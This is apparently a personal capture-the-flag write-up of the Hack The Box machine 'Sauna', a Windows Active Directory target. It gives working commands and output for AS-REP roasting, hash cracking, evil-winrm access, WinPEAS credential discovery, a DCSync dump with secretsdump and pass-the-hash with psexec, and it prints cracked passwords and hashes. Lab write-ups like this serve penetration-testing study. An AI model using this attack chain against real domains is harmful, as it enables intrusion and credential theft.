

**Start 14:26 24-08**

---
```
10.10.10.175
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.175 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 13:27 IST
Nmap scan report for 10.10.10.175
Host is up (0.087s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

Nmap done: 1 IP address (1 host up) scanned in 4.94 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -Pn -T5 -vvvv -p- 10.10.10.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 13:27 IST
Host is up, received user-set (0.086s latency).
Scanned at 2024-08-24 13:27:20 IST for 261s
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-08-24 19:30:55Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35558/tcp): CLEAN (Timeout)
|   Check 2 (port 13219/tcp): CLEAN (Timeout)
|   Check 3 (port 57297/udp): CLEAN (Timeout)
|   Check 4 (port 54129/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 7h00m44s
| smb2-time: 
|   date: 2024-08-24T19:31:45
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

While the thorough search was still busy I went ahead and enumerated `port 80`.

## 80/TCP - HTTP

I went ahead and added the host to my `/etc/hosts` list and went to the `URL` and after a bit of browsing around found the following page:


Here we see a few names from the `team` which will come in handy later on for our user enumeration.

Other than that I also found a `contact` page with a form:


==Dirsearch==
I also did a `dirsearch` for good measure in order to enumerate some directories but found nothing useful:

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://sauna.htb/ -x 403,404,400 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /home/kali/reports/http_sauna.htb/__24-08-24_13-34-47.txt

Target: http://sauna.htb/

[13:34:47] Starting: 
[13:34:55] 200 -   30KB - /about.html                                       
[13:35:08] 200 -    3KB - /contact.html                                     
[13:35:09] 301 -  144B  - /css  ->  http://sauna.htb/css/                   
[13:35:13] 301 -  146B  - /fonts  ->  http://sauna.htb/fonts/               
[13:35:15] 301 -  147B  - /images  ->  http://sauna.htb/images/ 
```


==User Enumeration==
I retrace to the found names within the `about.html` page. Here I learned about multiple team members and their names. Instead of brute forcing it trying every combination possible for the names we can utilize a script called [username-anarchy](https://github.com/urbanadventurer/username-anarchy):


I will install the script and simultaneously create a `.txt` file with all the names, space seperated.



```bash
┌──(kali㉿kali)-[~/Downloads/username-anarchy-master]
└─$ ./username-anarchy -i /home/kali/names.txt
```


==AS-REP Roasting==
From this we get a huge output of possible usernames, I then chose to put them all in a new `.txt`
file which I called `usernames.txt`. I then ran this list against the `impacket GetNPUsers`  script to check which of these usernames has `Kerberos pre-authentication` disabled.

```bash
┌──(kali㉿kali)-[~]
└─$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/ -usersfile usernames.txt
```

From the whole list there's only 1 user that pops up:

```bash
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:87d9cfdfc856da327e2d697426919f86$cdd112ad2929e51fadc5ae8997718c4264815625fc4cbd50cfe57a560d4819f850f148cddf8a4730a653cabc37d908ae40819540a746d6350a9dd0bebe00c66246327404d08afb254bbc93b2f44c8f2cfc719289cabacb7b7de0ef4df61953c1529fe52fc4f0b045bcb997c96dc5c8499055a429f86db9dcdc98f82f61b713027d96654d34637965bebc15269ddb2d1183a564555589758b47c4939b709d53669fc7b49ef113c576328b70387c2c168d8b650adf29e1083949424e84cc031c0e27f1f5fba813351e6c5c43be754b65353256d8d3672200ee789faac2b5fb3a6fe9359a20955f3afca8563ee5804578de4aaa9a25a1d9caa3fe40beffaa883e8f
```

It appears to be the username of `Fergus Smith`. Now that we have the username and the hash we can get to the next step, which is cracking of the hash. 


==Hash Cracking==
I input the hash inside a `hashes.txt` file and try to crack it using `Hashcat` or `John`.

```bash
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt 

OR

hashcat -m 18200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

In this case I ran them both just to see which one would perform better, it appeared that `John` was quicker by about 10 seconds or so:

```bash
┌──(kali㉿kali)-[~]
└─$ john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)     
1g 0:00:00:08 DONE (2024-08-24 14:03) 0.1154g/s 1216Kp/s 1216Kc/s 1216KC/s Thing..Thehunter22
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```bash
┌──(kali㉿kali)-[~]
└─$ hashcat -m 18200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-penryn-AMD Ryzen 5 5600X 6-Core Processor, 2919/5902 MB (1024 MB allocatable), 4MCU

</SNIP>

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:87d9cfdfc856da327e2d697426919f86$cdd112ad2929e51fadc5ae8997718c4264815625fc4cbd50cfe57a560d4819f850f148cddf8a4730a653cabc37d908ae40819540a746d6350a9dd0bebe00c66246327404d08afb254bbc93b2f44c8f2cfc719289cabacb7b7de0ef4df61953c1529fe52fc4f0b045bcb997c96dc5c8499055a429f86db9dcdc98f82f61b713027d96654d34637965bebc15269ddb2d1183a564555589758b47c4939b709d53669fc7b49ef113c576328b70387c2c168d8b650adf29e1083949424e84cc031c0e27f1f5fba813351e6c5c43be754b65353256d8d3672200ee789faac2b5fb3a6fe9359a20955f3afca8563ee5804578de4aaa9a25a1d9caa3fe40beffaa883e8f:Thestrokes23
 
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:87d9cfd...883e8f
Time.Started.....: Sat Aug 24 14:03:25 2024 (15 secs)
Time.Estimated...: Sat Aug 24 14:03:40 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1320.3 kH/s (0.87ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10539008/14344385 (73.47%)
Rejected.........: 0/10539008 (0.00%)
Restore.Point....: 10536960/14344385 (73.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Tiffany95 -> Thelittlemermaid
Hardware.Mon.#1..: Util: 42%

Started: Sat Aug 24 14:03:23 2024
Stopped: Sat Aug 24 14:03:41 2024
```

In the end both gave the same result so it doesn't matter which one you use really.

Now that we've got some juicy creds we can try and connect to a port in order to get a `foothold`.
I recalled that port `5985` was running `WinRM` so I know that I can now go ahead and log into that port with these credentials.

## 5985/TCP - WinRM

==evil-winrm==
I will use `evil-winrm` in order to get an `interactive shell` on the target machine, for this I will use the previously found creds:

```
fsmith
Thestrokes23
```

```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23                       
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami
egotisticalbank\fsmith
```

And just like that we're in, now we can go ahead and simply grab the `user.txt` flag from the `Desktop` directory.


==user.txt==
```powershell
*Evil-WinRM* PS C:\Users\FSmith\Desktop> type user.txt
bde518059a126e40abc397943ff450a1
```

Now that we have the `user.txt` flag it's time to go and enumerate the server. 

## Privilege Escalation

==WinPEAS==
In order to gain higher privileges I need to enumerate the machine, and what better way to do it than [WinPEAS](Windows%20Privilege%20Escalation.md#WinPEAS). I downloaded it from the [official GitHub repo](https://github.com/peass-ng/PEASS-ng/releases/tag/20240818-ea81ae32) and uploaded the script to the `evil-winrm` terminal.

```powershell
┌──(kali㉿kali)-[~]
└─$ chmod +x winpeas.exe

*Evil-WinRM* PS C:\Users\FSmith\Documents> upload winpeas.exe
```

I then ran the script on the target and checked the results. Some important `Environment Variables` showed up:

```powershell
╔══════════╣ User Environment Variables
╚ Check for some passwords or keys in the env variables 
    COMPUTERNAME: SAUNA
    PUBLIC: C:\Users\Public
    LOCALAPPDATA: C:\Users\FSmith\AppData\Local
    PSModulePath: C:\Users\FSmith\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
    PROCESSOR_ARCHITECTURE: AMD64
    Path: C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\FSmith\AppData\Local\Microsoft\WindowsApps
    CommonProgramFiles(x86): C:\Program Files (x86)\Common Files
    ProgramFiles(x86): C:\Program Files (x86)
    PROCESSOR_LEVEL: 25
    ProgramFiles: C:\Program Files
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL
    USERPROFILE: C:\Users\FSmith
    SystemRoot: C:\Windows
    ALLUSERSPROFILE: C:\ProgramData
    DriverData: C:\Windows\System32\Drivers\DriverData
    ProgramData: C:\ProgramData
    PROCESSOR_REVISION: 0101
    USERNAME: FSmith
    CommonProgramW6432: C:\Program Files\Common Files
    CommonProgramFiles: C:\Program Files\Common Files
    OS: Windows_NT
    PROCESSOR_IDENTIFIER: AMD64 Family 25 Model 1 Stepping 1, AuthenticAMD
    ComSpec: C:\Windows\system32\cmd.exe
    SystemDrive: C:
    TEMP: C:\Users\FSmith\AppData\Local\Temp
    NUMBER_OF_PROCESSORS: 2
    APPDATA: C:\Users\FSmith\AppData\Roaming
    TMP: C:\Users\FSmith\AppData\Local\Temp
    ProgramW6432: C:\Program Files
    windir: C:\Windows
    USERDOMAIN: EGOTISTICALBANK
    USERDNSDOMAIN: EGOTISTICAL-BANK.LOCAL

╔══════════╣ System Environment Variables
╚ Check for some passwords or keys in the env variables 
    ComSpec: C:\Windows\system32\cmd.exe
    DriverData: C:\Windows\System32\Drivers\DriverData
    OS: Windows_NT
    Path: C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
    PROCESSOR_ARCHITECTURE: AMD64
    PSModulePath: C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
    TEMP: C:\Windows\TEMP
    TMP: C:\Windows\TEMP
    USERNAME: SYSTEM
    windir: C:\Windows
    NUMBER_OF_PROCESSORS: 2
    PROCESSOR_LEVEL: 25
    PROCESSOR_IDENTIFIER: AMD64 Family 25 Model 1 Stepping 1, AuthenticAMD
    PROCESSOR_REVISION: 0101
```

We found a list of all `Local Users`:

```powershell
╔══════════╣ Display information about local users
   Computer Name           :   SAUNA
   User Name               :   Administrator
   User Id                 :   500
   Is Enabled              :   True
   User Type               :   Administrator
   Comment                 :   Built-in account for administering the computer/domain
   Last Logon              :   8/24/2024 12:27:43 PM
   Logons Count            :   132
   Password Last Set       :   7/26/2021 9:16:16 AM

   =================================================================================================                                                              

   Computer Name           :   SAUNA
   User Name               :   Guest
   User Id                 :   501
   Is Enabled              :   False
   User Type               :   Guest
   Comment                 :   Built-in account for guest access to the computer/domain
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   1/1/1970 12:00:00 AM

   =================================================================================================                                                              

   Computer Name           :   SAUNA
   User Name               :   krbtgt
   User Id                 :   502
   Is Enabled              :   False
   User Type               :   User
   Comment                 :   Key Distribution Center Service Account
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   1/22/2020 10:45:30 PM

   =================================================================================================                                                              

   Computer Name           :   SAUNA
   User Name               :   HSmith
   User Id                 :   1103
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   1/22/2020 10:54:34 PM

   =================================================================================================                                                              

   Computer Name           :   SAUNA
   User Name               :   FSmith
   User Id                 :   1105
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   8/24/2024 12:57:07 PM
   Logons Count            :   9
   Password Last Set       :   1/23/2020 9:45:19 AM

   =================================================================================================                                                              

   Computer Name           :   SAUNA
   User Name               :   svc_loanmgr
   User Id                 :   1108
   Is Enabled              :   True
   User Type               :   User
   Comment                 :
   Last Logon              :   1/1/1970 12:00:00 AM
   Logons Count            :   0
   Password Last Set       :   1/24/2020 4:48:31 PM

```

But most importantly we found `autologin credentials`:

```powershell
╔══════════╣ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

We can now start another `evil-winrm` instance where we login as this newly found user.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ evil-winrm -i 10.10.10.175 -u svc_loanmgr -p Moneymakestheworldgoround!

Evil-WinRM shell v3.5
   
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
  
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
  
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> 
```


==Bloodhound==
To enumerate and visualize the `Active Directory` domain we can use `Bloodhound` to visualize attack paths. I already had it pre-installed, but you can install it using `sudo apt install bloodhound`. 
I went to the following directory to make uploading easier, since we first will have to upload a `SharpHound.ps1` script.


==First attempt==
```bash
cd /usr/lib/bloodhound/resources/app/Collectors/

evil-winrm -i 10.10.10.175 -u svc_loanmgr -p Moneymakestheworldgoround!

upload /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1
```

Then we issue the following commands:

```powershell
powershell -ep bypass

Import-Module .\Sharphound.ps1

Invoke-Bloodhound -CollectionMethod All -OutputDirectory C:\Users\svc_loanmgr\Documents\ -OutputPrefix "saunaEnum"
```

If everything went correctly this should be the output:

```powershell
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> dir


    Directory: C:\Users\svc_loanmgr\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/24/2024   2:04 PM             78 bloodhound
-a----        8/24/2024   2:27 PM          11735 saunaEnum_20240824142756_BloodHound.zip
-a----        8/24/2024   2:23 PM        1308348 SharpHound.ps1
```

We can now `download` the `.zip` file to our local machine again using:

```powerhsell
download C:\Users\svc_loanmgr\Documents\saunaEnum_20240824142847_BloodHound.zip
```

Unfortunately for us that did not work as it tells us that the permissions are denied:

```powershell
C:\Users\svc_loanmgr\Documents\saunaEnum_20240824142847_BloodHound.zip to saunaEnum_20240824142847_BloodHound.zip                               

Error: Download failed. Check filenames or paths: Permission denied @ rb_sysopen - saunaEnum_20240824142847_BloodHound.zip                                        
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> 
```

Guess we'll have to try it another way.


==Second attempt==
Instead of uploading the file I will go about it another way. I wrote the steps I took down below:

```bash
sudo neo4j console

bloodhound-python -u svc_loanmgr -p Moneymakestheworldgoround! -d EGOTISTICAL-BANK.LOCAL -ns 10.10.10.175 -c all
```

In this instance we will not enumerate it locally but instead from our own terminal, this way we create separate `.json` files which we then have to `merge into one .zip folder` and extract it within `Bloodhound`. If the above commands worked correctly it should look somewhat like this:


We will now merge it together into one folder:

```bash
zip sauna.zip *.json
```


```bash
-rw-rw-r-- 1 kali kali 12001 Aug 24 15:48 sauna.zip
```

Now that we have created our `.zip` folder we will open up `bloodhound` using that exact command:

```
bloodhound
```


Log in with your `neo4j` credentials and then we are greeted with the `Bloodhound` UI. Click `Upload Data` on the right and choose the `.zip` file. 


Once all is uploaded we can start `querying` the `database`. 
We use the `Find Principals with DCSync Rights` inside the `Queries` tab:


When we right click on the line a `Help` screen pops up which gives us more info:


It seems we are in a unique position where we have `GetChangesAll` privileges. Furthermore when we click `Windows Abuse` it tells us the following:


==Secretsdump==
I tried doing it with `Mimikatz` but I couldn't find out how to properly use it so instead went with `secretsdump.py`. This is yet another `impacket` script which can be initiated with:

```bash
impacket-secretsdump 
```

I ran it with the `-h` command since I haven't used it before, and from the `help` screen it seems we need to run it as follows:

```bash
impacket-secretsdump egotistical-bank/svc_loanmgr@10.10.10.175 -just-dc-user Administrator
```

I run it, we get the password prompted so I insert it and we get the following output:

```bash
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump egotistical-bank/svc_loanmgr@10.10.10.175 -just-dc-user Administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
[*] Cleaning up...
```

Now that we've got the hash we can use it in our `Pass The Hash` attack in order to login as the administrator.


==Passing the Hash==
In order to perform this attack I will be using `impacket-psexec`. For this we will have to enter the following arguments:

```bash
┌──(kali㉿kali)-[~]
└─$ impacket-psexec egotistical-bank.local/administrator@10.10.10.175 -hashes 823452073d75b9d1cf70ebdf86c7f98e:823452073d75b9d1cf70ebdf86c7f98e

# Note to self, for some reason I had to enter the second part of the hash twice, it did not work if it was only entered once.
```

Now let it run and...

```bash
┌──(kali㉿kali)-[~]
└─$ impacket-psexec egotistical-bank.local/administrator@10.10.10.175 -hashes 823452073d75b9d1cf70ebdf86c7f98e:823452073d75b9d1cf70ebdf86c7f98e
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file ZsvbyrIc.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service TABU on 10.10.10.175.....
[*] Starting service TABU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Voila


==root.txt==
We head into `/Administrator/Desktop` and get our well deserved flag:

```powershell
C:\Users\Administrator\Desktop> type root.txt
16c5e63f5934eee7a3dd9df19721594b
```


---

**Finished 17:34 24-08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
